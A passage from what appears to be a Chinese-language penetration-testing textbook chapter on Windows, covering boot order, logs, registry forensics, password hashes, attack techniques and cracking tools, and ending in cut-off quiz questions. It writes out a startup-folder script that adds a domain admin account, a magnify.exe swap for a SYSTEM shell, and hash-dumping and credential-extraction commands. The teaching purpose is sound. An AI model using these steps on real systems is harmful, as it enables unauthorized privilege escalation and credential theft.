- 9. NTLDR 读取 boot.ini 并显示引导加载程序菜单。如果存在多个操作系统，它们将被显示。
- 10. NTLDR 加载 NTOSKRNL 并传递硬件信息。NTOSKRNL 是 Windows 操作系统的实际内核。这是 *boot phase* 的结束和 *load phase* 的开始。
- 11. NTLDR 加载 hal.dll（硬件抽象层）。
- 12. NTLDR 加载系统配置单元（即注册表）并从中读取设置。
- 13. 内核初始化开始（屏幕变蓝）。
- 14. 服务加载阶段开始。
- 15. Win32 子系统启动阶段开始。
- 16. 用户登录。

了解引导顺序可以让您诊断可能阻止系统启动的问题，了解加密何时实施等等。某些病毒感染引导扇区，因此在系统加载时被加载，并可能影响系统的加载方式。这些都是了解引导顺序至少在一般意义上的良好理由。

## Important Windows Files

Windows 有许多文件。如果您查看任务管理器，会看到许多进程/程序在运行。聪明的病毒和间谍软件编写者会给其恶意软件起一个与这些系统进程相似的名称。这使得普通观察者认为它们是操作系统的一部分。这里列出了其中一些更重要的 Windows 文件：

- **Ntdetect.com:** 一个查询计算机基本设备/配置数据的程序，如 CMOS 中的时间/日期、系统总线类型、磁盘驱动器、端口等
- **Ntbootdd.sys:** 一个存储控制器设备驱动程序
- **Ntoskrnl.exe:** 操作系统的核心
- **Hal.dll:** 硬件接口
- **Smss.exe:** 处理系统上服务的程序
- **Winlogon.exe:** 登录程序
- **Lsass.exe:** 处理安全和登录策略的程序
- **Explorer.exe:** 用户交互的界面，如桌面、Windows 资源管理器等
- **Csrss.exe:** 处理创建线程、控制台窗口等任务的程序

在检查系统是否感染恶意软件时，您需要对主要系统应用程序有所了解。恶意软件通常会被赋予与系统进程相似的名称。如果您看到一个运行的进程具有相似的名称（例如 Lsassx.exe），那可能表明存在恶意软件。

## Windows Logs

所有版本的 Windows 都支持日志记录；但是，获取日志的方法可能因版本而异。对于 Windows 10 和 Windows Server 2012，现在是 Server 2016，您可以通过单击桌面左下角的开始按钮，然后单击控制面板找到日志。然后选择管理工具（图标视图），然后选择事件查看器。您需要检查以下日志：

- **Security log:** 从安全角度来看，这可能是最重要的日志。它包含成功和不成功的登录事件。
- **Application log:** 此日志包含由应用程序或程序记录的各种事件。许多应用程序在此记录其错误。
- **System log:** 系统日志包含由 Windows 系统组件记录的事件。这包括驱动程序失败等事件。从安全角度来看，此特定日志不如其他日志有趣。
- **ForwardedEvents log:** ForwardedEvents 日志用于存储从远程计算机收集的事件。只有在配置了事件转发时，此日志中才会有数据。
- **Applications and Services logs:** 这些日志用于存储来自单个应用程序或组件的事件，而不是可能具有系统范围影响的事件。

Windows 服务器有类似的日志；但是，日志可能为空。例如，工具 auditpol.exe 可以打开和关闭日志记录。精明的罪犯可能会在作恶时关闭日志记录，然后再打开。

在 Security log 中，您会找到指定条目的数字。超出本文本范围的是涵盖所有这些内容，但这里讨论了一些常见的关注问题：

- **4902:** 审计策略的更改，例如使用 Auditpol.exe。Auditpol.exe 是管理员更改策略的工具；然而，黑客有时会使用它暂时关闭日志记录。在日志中看到此编号可能表明黑客进入了您的系统并禁用了日志记录。
- **4741:** 创建了计算机账户。显然，账户在正常网络操作中会被创建。但是，如果网络管理员无法解释此账户的创建，则攻击者可能创建了此账户。这与 4742 密切相关，后者显示计算机账户已被更改。
- **4782:** 访问了密码哈希账户。同样，这可能在正常操作期间发生，但您确实需要检查它是否由正常操作解释。
- **4728:** 将成员添加到安全启用的全局组。如果您的管理员可以解释此操作，则属于正常操作。如果不能，则可能表明攻击者正在提升权限，现在可以更广泛地访问您的网络。

## The Registry

什么是注册表？它是 Windows 系统上所有信息的存储库。当您安装新程序时，其配置设置会存储在注册表中。当您更改桌面背景时，这也会存储在注册表中。

虽然以下摘录很旧，但仍然适用。并且它已适用多年这一事实表明 Windows 注册表是多么关键。根据 Joan Bard 在 Microsoft TechNet 上的文章：

> “除少数例外，所有 32 位 Windows 程序都将其配置数据以及您的首选项存储在注册表中，而大多数 16 位 Windows 程序和 MS-DOS 程序则不存储——它们更喜欢过时的 INI 文件（16 位 Windows 用于存储配置数据的文本文件）。注册表包含计算机的硬件配置，其中包括具有自动配置的即插即用设备和传统设备。它允许操作系统保留多个硬件配置和多个具有个人偏好的用户。它允许程序通过快捷菜单和属性表等项目扩展桌面。它支持通过网络进行远程管理。当然，还有更多。但这很好地介绍了注册表的作用。”

正如您将在本节中看到的那样，您可以从注册表中收集大量信息，这就是为什么彻底了解 Windows 很重要。您可能还想尝试可以读取或写入注册表的恶意软件。但首先，如何访问注册表？通常的路径是通过 regedit 工具。在 Windows 10 和 Server 2016 中，您选择开始，然后运行，然后输入 regedit。在 Windows 8 中，您需要进入应用程序列表，选择所有应用，然后找到 regedit。


注册表被组织成五个部分，称为配置单元。每个部分都包含对你可能有用的特定信息。以下描述了这五个配置单元：

- 1. HKEY_CLASSES_ROOT (HKCR)：此配置单元存储有关拖放规则、程序快捷方式、用户界面以及相关项目的信息。
- 2. HKEY_CURRENT_USER (HKCU)：此配置单元非常重要。它存储有关当前已登录用户的信息，包括桌面设置、用户文件夹等。
- 3. HKEY_LOCAL_MACHINE (HKLM)：此配置单元包含整个机器通用的设置，无论是哪个用户。
- 4. HKEY_USERS (HKU)：此配置单元包含所有用户的配置文件，包括其设置。
- 5. HKEY_CURRENT_CONFIG (HKCC)：此配置单元包含当前系统配置。

你可以在图 6-1 中看到这五个配置单元。



图 6-1 Windows 注册表配置单元。

随着你在本节继续学习并了解在注册表中查找某些关键值的位置，请记住特定的配置单元名称。

## USB 信息

在注册表中可以找到的一项重要信息是已连接到计算机的任何 USB 设备。

注册表项 HKEY_LOCAL_MACHINE\System\ControlSet\Enum\USBSTOR 列出了已连接到计算机的 USB 设备。通常情况下，罪犯会将证据或窃取其他信息移动到外部设备并随身携带。这可能表明你需要找到并检查某些设备。罪犯通常会尝试将文件离线移动到外部驱动器。此注册表设置会告诉你哪些外部驱动器已连接到此系统。

还有其他与 USBSTOR 相关的键提供相关信息。例如，SYSTEM\MountedDevices 允许调查人员将序列号与 USB 设备插入时挂载的给定驱动器号或卷进行匹配。这些信息应与 USBSTOR 的信息结合起来，以便更全面地了解与 USB 相关的活动。

注册表项 HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2 会指示 USB 设备连接时系统上登录的是哪个用户。这使调查人员能够将特定用户与特定 USB 设备关联起来。

## 无线网络

想一想，仅仅一瞬间，连接到 Wi-Fi 网络。你可能必须输入某个密码短语。但下次连接到该 Wi-Fi 时，你不需要再次输入该密码短语，对吧？这些信息存储在计算机的某个地方，但在哪里？它存储在注册表中。

当个人连接到无线网络时，服务集标识符（SSID）会被记录为首选网络连接。这些信息可以在注册表的 HKLM\SOFTWARE\Microsoft\WZCSVC\Parameters\Interfaces 键中找到。

注册表项 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles\ 会给出此网络接口已连接的所有 Wi-Fi 网络的列表。网络的 SSID 包含在 Description 键中。计算机首次连接到网络的时间记录在 DateCreated 字段中。

注册表项 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Signatures\Unmanaged\{ProfileGUID} 存储其所连接的无线接入点的 MAC 地址。

## 在注册表中跟踪 Word 文档

许多版本的 Word 在注册表中存储 PID_GUID 值——例如，像这样：{ 1 2 3 A 8 B 2 2 - 6 2 2 B - 1 4 C 4 - 8 4 A D - 0 0 D 1 B 6 1 B 0 3 A 4 }。字符串 0 0 D 1 B 6 1 B 0 3 A 4 是创建此文档的计算机的 MAC 地址。在涉及知识产权盗窃、间谍活动和类似犯罪的案件中，追踪文档来源可能非常重要。这是 Windows 注册表中一个相当晦涩且鲜为人知的方面。

## 注册表中的恶意软件

如果你在注册表中搜索并找到 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon，它有一个名为 Shell 的值，默认数据为 Explorer.exe。基本上，它告诉系统在登录完成后启动 Windows 资源管理器。某些恶意软件会将恶意软件可执行文件附加到默认值数据中，以便恶意软件在系统每次启动时加载。如果怀疑存在恶意软件问题，检查此注册表设置非常重要。

键 HKLM\SYSTEM\CurrentControlSet\Services\ 列出系统服务。有多个恶意软件示例以服务形式安装，特别是后门软件。因此，如果怀疑存在恶意软件问题，再次检查此键。

## 已卸载的软件

入侵者入侵计算机后可能会出于各种目的在该计算机上安装软件，例如恢复已删除文件或创建后门。入侵者随后很可能会删除其使用的软件。也有可能窃取数据的员工会安装隐写软件以便隐藏数据。他或她随后会卸载该软件。HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall 键可让你查看已从此计算机卸载的所有软件。即使你卸载了某些黑客工具，此注册表键很可能仍会记录该软件曾存在于机器上。

## 密码

如果用户告诉 Internet Explorer 记住密码，则这些密码会存储在注册表中，你可以检索它们。以下键保存这些值：

HKCU\Software\Microsoft\Internet Explorer\IntelliForms\SPW

请注意，在某些版本的 Windows 中，结尾将为 \IntelliForms\Storage 1。

任何密码来源都特别有趣。人们重复使用密码并不罕见。因此，如果你能够获取在一种上下文中使用的密码，它们可能与在其他上下文中使用的密码相同。

## UserAssist

UserAssist 是 Windows 2000 及更高版本的特性。其目的是帮助程序更快启动。因此，它会维护已启动程序的记录。通过检查 UserAssist 的相应注册表项，可以查看该机器上执行过的所有程序。这些信息存储在注册表 (HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist) 中，但它是加密的，因此你需要像免费的 UserAssist 工具之类的东西来了解更多信息。

你可以在 https://www.downloadcrew.com/article/23805-userassist 获取 UserAssist 工具。

## 预取

Prefetch 是在 Windows XP 中引入的一项技术。大多数，如果不是全部，Windows 程序都依赖于一系列动态链接库 (DLL) 来运行。为了提高这些程序的性能，Windows 会保留给定可执行文件所需的所有 DLL 的列表。当可执行文件启动时，所有 DLL 都会被“获取”。其目的是加快软件速度，但一个附带好处是 Prefetch 条目会保留可执行文件运行次数的列表以及最后运行的日期/时间。这已被类似技术（如 Superfetch）所取代。

每个 Prefetch 文件都有一个 4 字节签名（在偏移量 4 处）“SCCA”（或以十六进制表示 0x53 0x43 0x43 0x41）。假定签名前面是一个 4 字节格式版本指示符：Windows XP 为 17，Windows 10 为 30 等。文件可以在 %SystemRoot%\Prefetch 中找到。Prefetch 文件以 .pf 扩展名结尾。Superfetch 文件以 Ag*.db、Ag*.db.trx 结尾。保留的 Prefetch 文件数量有限，但这会因 Windows 的不同版本而变化。

## 卷影复制

Windows 卷影复制会保留更改的记录或副本。这些状态更改存储在每日比较的数据块中，已更改的块会被复制到卷影中。卷影复制服务每天运行一次，使用 16 KB 的数据块。在 VSC 的差异副本中，仅按簇备份更改。对于完整副本或克隆，则备份整个文件。这可以是一个极佳的地方来寻找嫌疑人可能甚至不知道可用的证据。

## Windows 密码哈希

任何渗透测试人员或黑客的常见任务之一是尝试从 Windows 系统中检索密码。因此，了解 Windows 如何存储密码非常重要。所有版本的 Windows 都以哈希形式存储密码，并将它们存储在名为 SAM 文件的文件中。安全账户管理器文件仅存储密码的哈希值。Windows 本身并不知道你的实际密码是什么。

Microsoft 创建了自己的哈希方法，而不是简单地使用众所周知的哈希算法。Microsoft 的哈希处理过程多年来一直在发展。

NT LAN Manager (NTLM) 是一套 Microsoft 安全协议，提供身份验证、完整性和保密性。它是旧版 LAN Manager 的继任者，当前版本为 NTLMv2。Microsoft 现在在 Windows 域中使用 Kerberos（自 Windows 2000 起），但在以下情况下仍使用 NTLM：

- 1. 客户端通过 IP 地址向服务器进行身份验证
- 2. 客户端向位于不同 Active Directory 森林中的服务器进行身份验证，该森林使用旧版 NTLM 信任而不是传递的跨林信任
- 3. 客户端向不属于域的服务器进行身份验证
- 4. 如果 Kerberos 被防火墙阻止

第一个 Microsoft 哈希是 LanManager。它现在已过时，只能在非常旧版本的 Windows 中找到。LanManager (LM) 有几个限制。以下是简要描述：

- LanManager 限制为 14 个字符。
- 所有密码在哈希前首先转换为大写。


- 如果密码小于 14 字节，则用空值填充。
- 14 字节的值被分成两半，每半 7 字节长。
- 这两半用于创建两个独立的 DES 密钥。
- 这些密钥中的每一个都用于加密一个常量 ASCII 字符串 KGS!@#$%。生成 2 个单独的 8 字节密文字符串。然后将它们连接起来形成一个 16 字节的 LM 哈希，它实际上并不是真正的哈希算法。

对此的第一个改进是 NT Hash。NT Hash 至少使用了真正的哈希算法，尽管在当时该算法已经过时，即 MD4。

下一个改进是新技术局域网管理器（NTLM）。NTLM 有两个版本。NTLM 的基本流程如下：

- 1. 存在客户端-服务器交换，其中客户端发送 NEGOTIATE_MESSAGE。
- 2. 服务器用 CHALLENGE_MESSAGE 作出响应。
- 3. 客户端用 AUTHENTICATE_MESSAGE 作出响应。

服务器上存储的两个哈希密码值中的一个或两个都用于对客户端进行身份验证。这两者是 LM Hash 或 NT Hash。

NTLM 版本 1 的基本流程始于服务器对客户端进行身份验证。服务器通过发送一个随机的 8 字节数字作为挑战来对客户端进行身份验证。客户端执行涉及挑战和客户端与服务器之间共享的秘密的操作。共享的秘密是 NTLM 总体描述中讨论的哈希密码之一。结果是一个发送到服务器的 24 字节值。服务器验证其是否正确。

NTLM 版本 2 做了一些额外的修改。客户端向服务器的 8 字节挑战发送两个响应。每个响应都是服务器挑战的 16 字节 HMAC 哈希和用户密码的 HMAC 的哈希（HMAC 使用 MD5 哈希算法）。第二个响应还包括当前时间、一个 8 字节随机值和域名。

## Windows 黑客技术

鉴于 Microsoft Windows 的无处不在，针对该操作系统的各种攻击层出不穷也就不足为奇了。在本节中，我们将简要介绍其中一些。第三章“密码学”已经讨论了一些针对 Windows 的密码破解技术。稍后在本书中，当我们关注 Metasploit 时，将看到更多利用 Windows 的方法。对于本章，我们将重点关注攻击 Windows 的非 Metasploit 方法。

### Pass the Hash

传递哈希攻击本质上认识到哈希无法被逆向（回顾第三章中关于哈希的讨论）；而不是试图找出密码是什么，攻击者只需发送哈希。如果攻击者能够获得有效的用户名和用户密码哈希值（仅哈希；攻击者不知道实际密码），那么黑客就可以使用该哈希，而从未知道实际密码。

Windows 应用程序要求用户输入密码；然后它们会对其进行哈希处理。这通常可以通过 LsaLogonUser 之类的 API 完成，将密码转换为 LM 哈希或 NT 哈希。传递哈希绕过应用程序直接发送哈希。

作为渗透测试人员，你希望这种情况不会发生。存在对策。其中之一是在 NTLM 哈希中添加当前日期/时间。这意味着如果哈希不是从应用程序立即发送的，它将被视为无效。

### chntpw

这是一个可以从互联网下载的工具（http://www.chntpw.com/）。它用于清空密码。可以从 USB 或 CD 使用。它会编辑 SAM 文件并简单地清空所使用的密码。它是一个命令行工具，会清空 SAM 文件中的密码。图 6-2 显示了 USB 安装。



图 6-2 chntpw USB 安装。

### Net User 脚本

此特定漏洞利用首先需要以至少来宾级权限访问目标机器。它基于这样一个事实：许多组织将技术支持人员放在域管理员组中。

攻击者编写以下两行脚本（显然，单词 localaccountname 用实际的本地帐户名替换）：

```
net user /domain /add localaccountname password
net group /domain "Domain Admins" /add localaccountname
```

将该脚本保存在所有用户启动文件夹中。下次具有域管理员权限的人登录到机器时，它将执行，并且该 localaccountname 现在将成为域管理员。唯一的问题是，可能需要相当长的时间才会有这样权限的人登录到该机器。为了实现这一点，攻击者会造成系统问题，需要技术支持修复，例如禁用网卡。下一个登录的用户将无法访问网络或互联网并会呼叫技术支持。技术支持人员属于域管理员组的可能性相当高。当该人员登录计算机修复问题时，未经她知晓脚本将执行。

此特定漏洞利用说明了两个不同的安全问题。第一个是最小权限的概念。这意味着每个用户只有完成其工作所需的最低权限。因此，技术支持人员不应在域管理员组中。

第二个问题是应控制对任何机器的访问。此漏洞利用仅要求攻击者具有来宾级访问权限，而且仅需几分钟。从这种最低访问权限开始，熟练的攻击者可以继续前进并获取域管理员权限。

### 以系统身份登录

此特定攻击需要对网络上的一台机器进行物理访问。它不需要域甚至计算机登录凭据。要理解此攻击，请回想上次登录任何 Windows 计算机（甚至 Windows 服务器）的经历。在登录文本框（用户名和密码）旁边，有一个辅助功能按钮，允许您启动各种工具来帮助残疾用户。例如，您可以启动放大镜以放大文本。

在此攻击中，肇事者将系统启动到任何 Linux Live CD。然后，使用 FDISK 实用程序，攻击者将定位 Windows 分区。导航到 Windows\System32 目录，攻击者可以先备份 magnify.exe，也许将备份命名为 magnify.bak。然后她可以获取 command.exe（命令提示符）并将其重命名为 magnify.exe。

现在攻击者重新启动到 Windows。当登录屏幕出现时，肇事者点击辅助功能然后点击放大。由于 command.exe 已重命名为 magnify.exe，这实际上将启动命令提示符。此时尚未有用户登录，因此命令提示符将具有系统权限。此时攻击者仅受其从命令提示符执行的命令知识的限制。

此特定攻击说明了物理安全的需求。如果攻击者能独自拥有你的 Windows 计算机 10 分钟，她很可能会找到入侵网络的方法。

### 查找管理员

重命名帐户是良好的安全实践。不要将管理员帐户命名为 administrator。然而，命令行工具 sid2user 可用于定位真正的管理员帐户：

```
sid2user
sid2user [\\computer_name] authority subauthority1
```

其中 computer_name 是可选的。默认情况下，搜索从本地 Windows NT 计算机开始。例如：

```
sid2user 5 32 544
sid2user 5 21 201642981 56263093 24269216 500
```

该命令总能得到真正的管理员。

http://www.securityfocus.com/tools/544

在图 6-3 中可以看到 sid2user 的运行情况。管理员始终具有用户 ID 500。需要注意的是，访客始终为 501。这两个事实有助于你识别给定用户的角色。Microsoft 在 https://msdn.microsoft.com/en-us/library/windows/desktop/aa379571(v=vs.85).aspx 上有一篇关于 SIDs 的详细文章。



图 6-3 sid2user 运行情况。

### Windows 脚本

有许多命令行实用程序可以帮助黑客和渗透测试。一旦你对机器有一定程度的访问权限，net 命令可以帮助你了解更多信息。你也可以将它们写成脚本（回顾第五章“恶意软件”中的基于脚本的病毒）。其中许多需要本地管理员权限才能工作。但令人惊讶的是，有多少人日常以本地管理员权限登录计算机。以下各节涵盖了一些最基本的命令。


## net users

**net users** 命令列出用户。你可以在图 6-4 中看到它。



图 6-4 **net users** 命令。

## net view

**net view** 命令是我个人最喜欢的之一。它显示此计算机可以通信的网络项目。如果您已获得一台机器的访问权限，此命令在枚举网络时非常宝贵。您可以在图 6-5 中看到 **net view**。



图 6-5 **net view** 命令。

## net share

**net share** 是另一个不错的枚举工具。它会显示此计算机可以访问的所有网络共享。您可以在图 6-6 中看到这一点。

注意共享的打印机 Workforce845。这可能为你对该网络的渗透测试提供下一步。



图 6-6 net share 命令。

## net service

net 命令可用于启动或停止服务。例如：

```
net start service
net stop service
```

常见服务包括：
- browser
- alerter
- messenger
- "routing and remote access"
- schedule
- spooler

## netshell

netshell，或 netsh，提供许多有趣的命令。在阅读这些内容时，请思考如何将它们与第 5 章中介绍的脚本病毒结合起来。我想你会看到一些有趣的可能性。

让我们首先以 netsh 作为在防火墙上打开端口的方式来检查它：

```
netsh firewall set portopening tcp 445 smb enable
```

它会起作用，但你会收到通知称 netsh firewall 已被弃用。用新的命令（netsh advfirewall firewall）和不同的端口重复实验。你可以在图 6-7 中看到这一点。



图 6-7 netsh advfirewall firewall。

还有其他几个选项，例如：
- netsh wlan show networks
- netsh interface ip show config

你甚至可以尝试连接到该网络上的另一台计算机，这与之前检查过的 net view 命令配合得很好：

```
netsh set machine remotecomputer
```

这并不总是成功，但非常值得尝试。

## Windows Password Cracking

密码破解是破解 Windows 的最基本方面之一。渗透测试人员尝试破解 Windows 密码非常重要。如果你可以破解它们，攻击者也可以。我们将在本节中检查几种工具。其中一些我们在第 3 章密码学中检查过，但在这里再次给出，以便将它们置于 Windows 密码破解的背景中。

### Offline NT Registry Editor

此工具只是清除目标机器的密码。它通常非常快且非常有效。它也是 https://www.lifewire.com/offline-nt-password-and-registry-editor-review-2626147 的免费下载。然而，从攻击者的角度来看，很明显本地密码已被清空。

### LCP

LCP 是一款老旧但有效的 Windows 密码破解器。你可以从 http://www.tucows.com/preview/391886/LCP 下载它。此工具允许你从各种位置导入哈希，包括同一网络上的另一台机器（Import > Import From Remote Computer），如图 6-8 所示。



图 6-8 LCP。

### pwdump

pwdump 是攻击者常用的工具，因此对安全专业人员来说也是一个好东西。许多密码破解工具的第一步是从 Windows 安全账户管理器（SAM）文件中获取本地密码哈希的副本，Windows 在其中存储密码的哈希。程序 pwdump 将从 SAM 文件中提取密码哈希。它是 http://www.openwall.com/passwords/windows-pwdump 的免费下载。

图 6-9 是 pwdump7 输出的图像。由于这是在一台实时机器上运行的，因此实际哈希已被涂黑。


图 6-9 pwdump。

通常，你希望将哈希转储到外部文件，以便将其导入彩虹表工具。彩虹表在第 3 章中有详细解释，但现在只需记住它们是用于猜测密码的预计算哈希表。这可以通过简单地将 pwdump 的输出通过管道传输到测试文件来轻松完成。例如：

```
pwdump > passwordhashes.txt
```

一旦你拥有了密码哈希，你就可以使用任何彩虹表工具来检查密码是否可以恢复。这是验证组织密码强度的一种方法。

### ophcrack

ophcrack 是最广泛使用的密码破解工具之一。ophcrack 很重要，因为它可以安装在可启动 CD 上。如果以这种方式使用，你将系统启动到 CD，从而绕过 Windows 安全，然后尝试破解密码。ophcrack 提供一个免费的小型彩虹表；必须购买更大的彩虹表。你可以从 http://ophcrack.sourceforge.net/ 下载 ophcrack。它也不需要单独的过程来转储 Windows SAM 文件。相反，它会为你从 SAM 文件中获取数据。图 6-10 显示了 ophcrack 的输出。实际哈希和密码已被涂黑。


图 6-10 ophcrack。

无论你使用哪种特定的密码破解工具，此类工具对于验证密码的安全性都非常重要。从本质上讲，你尝试破解密码，如果成功，则表明你的密码不够强。

### John the Ripper

John the Ripper 可能是最古老且最广为人知的密码破解工具。它也不再仅限于 Windows。也有 Linux 和 Macintosh 版本。你可以从 http://www.openwall.com/john/ 下载 John the Ripper。

John the Ripper 是一个命令行工具。但是，有完整的教程位于 http://openwall.info/wiki/john/tutorials。

## Detecting Malware in Windows

请记住，渗透测试人员的目标与攻击者不同。你的目标是提高安全性。并且经常会将渗透测试与审计/事件响应/漏洞扫描结合进行。因此，了解如何在 Windows 计算机上检测恶意软件的基本知识非常重要。并非总是可以通过防病毒软件检测到恶意软件。例如，零日利用很难检测，因为还没有签名。零日利用最好用以下引文描述：

> > Zero-day 指的是“好人”知道软件中存在安全问题的时间长短。有两种类型的零日。零日漏洞是软件安全性的一个漏洞，可能存在于浏览器或应用程序中。另一方面，零日利用是一种数字攻击，利用零日漏洞在设备上安装恶意软件。
> >
> > —Avast, https://www.avast.com/c-zero-day

那么，当你进行渗透测试或安全审计时，如何确定此类恶意软件是否存在？对于 Windows 计算机来说，至少，这比你想象的要容易得多。有工具可用于查找计算机上的异常。Windows Sysinternals 是一套由 Mark Russinovich 创建并可从 Microsoft 在 https://docs.microsoft.com/en-us/sysinternals/ 获取的工具。此工具套件可以检查系统的许多方面。

Process Explorer 将显示正在运行的进程以及启动这些进程的进程，如图 6-11 所示。


图 6-11 Process Explorer。

如 图 6-12 所示，Autoruns 工具将显示设置为自动运行的程序，这通常是恶意软件的标志。


图 6-12 Autoruns。

Windows 本身包含 sigverif，这是一个程序，将检查系统文件的数字签名并确保其合法。你可以在图 6-13 中看到这一点。


图 6-13 Sigverif。

这些工具实际上并不是渗透测试工具。它们更像是安全审计工具，有时也用于取证。但请记住本书贯穿始终的一个主题：渗透测试人员不是黑客。他或她会使用黑客技术，但最终目标是提高系统安全性。因此，在本书中，我有时会向你展示一些对安全有用但严格来说不是渗透测试的工具和技术。许多书籍声称是渗透测试书籍，但实际上只是教你黑客技术并希望你以道德方式使用技能。在本书中，我教你的是渗透测试。这意味着你对安全测试感兴趣，可能不特指“黑客”。

### Cain and Abel

这是一款老旧但可靠的工具，有助于提取大量信息。它是 http://www.oxid.it/cain.html 的免费下载。此工具具有许多有趣的功能。

最明显的功能之一是 Cain and Abel 可以读取 Windows 注册表并获取 Wi-Fi 密码。你可以在图 6-14 中看到这一点（SSID 和密码已被涂黑）。


## 图 6-14 Cain and Abel 识别无线密码。

要使用此功能，只需突出显示“无线密码”，然后单击工具栏中的大蓝色加号。片刻之后，您将拥有此计算机上存储的所有 Wi-Fi 密码。

类似的过程可用于让 Cain and Abel 从本地计算机的 SAM 文件中提取密码，类似于 ophcrack 的做法。您可以在图 6-15 中看到这一点。


## 图 6-15 Cain and Abel Windows 密码。

同样使用相同过程，您可以提取浏览器在 Windows Vault 中存储的密码。这可以在图 6-16 中看到。


## 图 6-16 Cain and Abel 浏览器密码。

正如您所见，此多功能工具将允许您访问一台机器，并提取大量不同的密码，这些密码可在其他位置使用，以扩大您对目标网络的渗透。

## 摘要

本章回顾了一些 Microsoft Windows 的基本方面。对于渗透测试人员来说，了解他或她正在测试的操作系统非常重要。我们还研究了一些可在 Windows 中使用的特定技术和工具，以检查系统是否已被入侵。虽然严格来说其中一些技术并不是渗透测试，但它们是安全审计的一部分。

请记住，这只是入侵 Windows 的入门介绍。最好的方法是尽可能多地了解 Windows 的当前版本。这是测试 Windows 安全漏洞最有效的方法。另请记住，当我们研究 Metasploit 时，本书后面还会看到其他 Windows 入侵技术。

## 测试你的技能

## 多项选择题

1. John 试图从一台机器获取密码列表，以便将其输入彩虹表并尝试检索密码。什么工具对他最有帮助？

- A. pwdump
- B. ophcrack
- C. sid2user
- D. regedit

2. 在运行行（即 开始 > 运行）中输入 "\\ipaddress\c$" 是试图实现什么？

- A. 远程桌面连接到目标机器
- B. 在 Windows 机器上查找共享
- C. 列举目标机器上的用户
- D. 登录到 Linux 机器

3. 此脚本实现了什么？

```
net user /domain /add localaccountname password
